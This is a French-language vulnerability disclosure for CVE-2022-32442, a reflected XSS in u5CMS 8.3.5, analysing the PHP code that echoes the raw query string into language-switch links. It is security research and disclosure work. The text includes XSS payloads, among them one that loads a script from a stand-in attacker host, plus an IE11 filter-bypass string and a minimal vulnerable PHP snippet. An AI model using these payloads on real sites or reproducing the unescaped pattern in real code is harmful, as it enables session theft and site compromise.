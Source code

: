 ```yaml
---
description: Mis à jour le 10/07/2022
---
```


# CVE-2022-32442

## Description

* **Vendeur :** Yuba ([https://yuba.ch/](https://yuba.ch/))
* **Produit :** u5CMS ([https://yuba.ch/index.php?c=u5cms\&l=en](https://yuba.ch/index.php?c=u5cms\&l=en))
* **Version(s) impactée(s) :** 8.3.5
* **Type de vulnérabilité :** XSS réfléchie ([CWE-79 - Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html))

La page d'accueil d'u5CMS en version 8.3.5 est vulnérable à une Cross-Site Scripting (XSS) de type réfléchie. La charge peut être être injectée après le caractère `?` de l'URL et est réfléchie dans les deux liens HTML permettant le changement de langue.

![S](<../../.gitbook/assets/image (5) (1).png>)

## Analyse de la vulnérabilité

Ce qui suit le caractère `?` de l'URL est réfléchie dans l'attribut `href` du lien `<a></a>` des deux (autres) choix de langues qu'offre le CMS :&#x20;

![](<../../.gitbook/assets/image (9) (1) (1) (1) (1).png>)

L'injection d'un caractère `"` visant à s'échapper de l'attribut `href` afin d'injecter la charge malicieuse `"onmouseover='alert(1)'value="&l=fr` ne fonctionne pas. En effet, le navigateur encode les caractères spéciaux rendant l'attaque ainsi sans effet :&#x20;

![](<../../.gitbook/assets/image (8) (1) (1) (1) (1) (1).png>)

L'encodage effectué par les navigateurs est le résultat de la bonne implémentation de la section 2.2 de la RFC 1738 ([https://datatracker.ietf.org/doc/html/rfc1738#section-2.2](https://datatracker.ietf.org/doc/html/rfc1738#section-2.2)) :&#x20;

![](<../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png>)

Firefox, Chrome ou encore Edge sont des bons élèves et implémentent correctement cette RFC, mais ce n'est pas forcément le cas pour ce bon vieux IE11. En effet ce navigateur n'encode pas les noms et les valeurs des paramètres :&#x20;

![](<../../.gitbook/assets/image (5) (1) (1) (1) (1).png>)

L'exécution d'un script distant est également possible grâce à la payload suivante `"><script/src=https://attacker.com/xss.js>&l=fr` :&#x20;

![](<../../.gitbook/assets/image (4) (1) (1).png>)

Et ce, même si le filtre anti-XSS d'IE11 semble être bien actif :&#x20;

![](<../../.gitbook/assets/image (8) (1) (1) (1) (1).png>)

{% hint style="info" %}
Microsoft a annoncé qu'Internet Explorer 11 ne sera plus supporté et progressivement retiré des versions de Windows. Cela peut avoir pour conséquence que les remontées de ce type (ie. exploitable seulement sous IE11) ne soient plus acceptées au sein des programmes de Bug Bounty.
{% endhint %}

{% hint style="danger" %}
Attention à lire également la partie "Code vulnérable" afin de bien comprendre le fonctionnement de l'attaque et la raison pour laquelle la vulnérabilité est exploitable seulement sous IE11.
{% endhint %}

Afin de prouver la présence de la XSS réfléchie sur n'importe quel navigateur il est possible de passer par une interception de proxy via Burp (ou autre) :&#x20;

![](<../../.gitbook/assets/image (11) (1) (1) (1) (1).png>)

## Code vulnérable

Le fichier `index.php` va rechercher les motifs `{{{motifs}}}` dans le fichier `htmltemplate.css` :

{% code title="index.php" %}
```php
$template=str_replace('[_logo_]','r/logo/'.def($file_d,$file_e,$file_f).'?t='.filemtime('r/logo/'.def($file_d,$file_e,$file_f)),file_get_contents('r/htmltemplate.css'));
...
$i_i_item=explode('{{{',$template);
for ($i_i_i=0;$i_i_i<count($i_i_item);$i_i_i++) {
   if (strpos($i_i_item[$i_i_i],'}}}')>1) {
      $i_i_part=explode('}}}',$i_i_item[$i_i_i]);
```
{% endcode %}

A un certain moment, le motif sera celui concernant l'affichage des liens de changement de langues `{{{languages}}}` :&#x20;

{% code title="htmltemplate.css" %}
```html
<div id="main">
  <div id="header" style="background:url([_logo_]);background-size:cover">
    <div id="metanavi">&nbsp;&nbsp;&nbsp;<a name="search"></a>{{{search}}}
      <div id="languages">{{{languages}}}</div>
```
{% endcode %}

Alors, le fichier nommé `u5sys.languages.php` sera inclus (`$i_i_part[0]` et aura pour valeur `"languages"`) :&#x20;

{% code title="index.php" %}
```php
if (file_exists('u5sys.'.$i_i_part[0].'.php')) include('u5sys.'.$i_i_part[0].'.php');
```
{% endcode %}

Ce nouveau fichier va afficher au sein de la page d'accueil les deux liens de changement de langues suivant la valeur contenu dans le paramètre de l'URL `l` :

{% code title="u5sys.languages.php" %}
```php
if ($_GET['l']==$lan3na) {
  $lancode=$lan3na;
  $nbsp='';
  if ($lan1name!='' && $lan2name!='') $nbsp='&nbsp;&nbsp;&nbsp;';
  if($u5showlinkofactivelanguageinmetanavi=='yes')$lanswitch='<a href="'.chglang($lan1na).'">'.$lan1name.'</a>'.$nbsp.'<a href="'.chglang($lan2na).'">'.$lan2name.'</a>'.$nbsp.'<a href="'.chglang($lan3na).'">'.$lan3name.'</a>';
  else $lanswitch='<a href="'. chglang($lan1na).'">'.$lan1name.'</a>'.$nbsp.'<a href="'.chglang($lan2na).'">'.$lan2name.'</a>';
}

...

echo $lanswitch;
```
{% endcode %}

{% hint style="info" %}
Il existe en fait trois blocs du même genre en fonction de la langue sélectionnée : "fr", "de" ou "en". L'exemple de code ici correspond à la langue "fr".
{% endhint %}

La fonction `chglang()` retourne la variable `$u` qui prend comme valeur le caractère `?` ainsi que  ce qui suit dans l'URL (grâce à `$_SERVER['QUERY_STRING']`) :

{% code title="chglang.inc.php" %}
```php
function chglang($l) {
  global $lan1na;
  global $lan2na;
  global $lan3na;
  
  $u='?'.$_SERVER['QUERY_STRING'];
  //echo 'query string : ' . $_SERVER['QUERY_STRING'];
  $u=str_replace('l='.$lan1na,'',$u);
  $u=str_replace('l='.$lan2na,'',$u);
  $u=str_replace('l='.$lan3na,'',$u);
  $u=str_replace('l=','',$u);
  $u=($u.'&l='.$l);
  $u=str_replace('&&','&',$u);
  $u=str_replace('?&','?',$u);
  //$u=str_replace('&','&amp;',$u);
  return $u;
}
```
{% endcode %}

{% hint style="info" %}
Les variables $lan1na, $lan2na, $lan3na correspondent respectivement aux chaines "de", "en" et "fr". Elles sont récupérées depuis la table `languages` en base de données.
{% endhint %}

Le coupable de la non exploitabilité de la vulnérabilité XSS sur d'autres navigateurs que IE11, à savoir à minima Chrome et Firefox, est la récupération de la valeur de l'URL par la variable `$_SERVER['QUERY_STRING']`. En effet, les donnée présentes dans l'URL et récupérées via ce procédé sont bien encodées par les navigateurs récents (la situation serait la même si les données étaient récupérées par la variable `$_SERVER['REQUEST-URI']`) et pas décodé par un composant côté serveur. Ce n'est pas le cas lors d'une récupération des données via la variable `$_GET['variable']` par exemple.

{% code title="globals.inc.php" %}
```php
$sql_a="SELECT * FROM languages";
$result_a=mysql_query($sql_a);
...
$row_a = mysql_fetch_array($result_a);
...
$lan1na=$row_a['lan1na'];
$lan2na=$row_a['lan2na'];
$lan3na=$row_a['lan3na'];
```
{% endcode %}

![](<../../.gitbook/assets/image (3) (1) (1).png>)

**Mise à jour du 10/07/2022**

La reproduction du code vulnérable dans un contexte plus simple (hébergé toujours sur la même VM) :&#x20;

```php
<?php
echo 'a href="example.com' . $_SERVER["QUERY_STRING"] .'">lien</a>';
?>
```

fait se déclencher la protection anti-XSS d'IE11 :&#x20;

![](<../../.gitbook/assets/image (8) (1) (1).png>)

La cause de cette différence (entre l'environnement utilisé pour le test de u5cms et celui de PoC) n'a pas pu être identifiée mais le contournement suivant `<script/%00%00v%00%00>alert(1)</script>` semble fonctionner dans le cadre du PoC :&#x20;

![](<../../.gitbook/assets/image (23) (1) (1) (1) (1) (1).png>)

et également sur le CMS vulnérable :&#x20;

![](<../../.gitbook/assets/image (3) (1).png>)

## Ressources

* [https://github.com/u5cms/u5cms/issues/49](https://github.com/u5cms/u5cms/issues/49)
* [https://twitter.com/xsspayloads/status/1276386591972438017](https://twitter.com/xsspayloads/status/1276386591972438017)
